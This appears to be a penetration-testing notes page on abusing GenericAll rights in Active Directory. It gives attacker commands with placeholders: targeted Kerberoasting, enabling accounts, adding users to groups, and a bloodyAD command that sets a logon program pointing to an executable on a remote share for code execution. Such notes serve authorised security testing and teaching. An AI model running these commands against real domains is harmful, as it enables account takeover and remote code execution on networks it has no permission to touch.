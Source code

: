 # Abusing GenericAll (User over User)

If an user have GenericAll over an user can get user NT hash, enable/disable user, change password, and change user properties, this properties include change logon script wich allos for RCE if user connects. It is recomende to first, get the nt hash (or if not possible kerberos hash), then check if user conects frequently, and if both ways are not allowed go for changing the password.


### Shadow credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

`targetedKerberoast.py -v -d '<domain>' -u '<controlled user>' -p '<controlled user password>'`

source: https://github.com/ShutdownRepo/targetedKerberoast

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You can enable/disable user and change other properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>

### Change user password (Force Change Password):

You can change user password remotly and then use it to connect via winrm, rdp etc...

Check Force Change Password seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/ForceChangePassword.md

<br>

-------------------------------------------------

# Abusing GenericAll (User over Group)

Technically if an user have GenericAll over a grup can move user into that group and change group properties.

### Set an user inside that group:
#### (externally, from attacking machine)
You can put users inside the that group, including your self.

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>`

BloodyAD -> `bloodyAD --host '<ip>' -d '<domain>' -u '<controlled_user>' -p '<password>' add groupMember '<target_group>' '<target_user>'`

<br>

#### (internally, inside victim machine)

If you get inside the machine try it manually. If unsuccesfull you can also try with powerview.

`net group '<target_group>' <target_user> /add /domain`

Source: https://www.hackingarticles.in/genericall-active-directory-abuse/



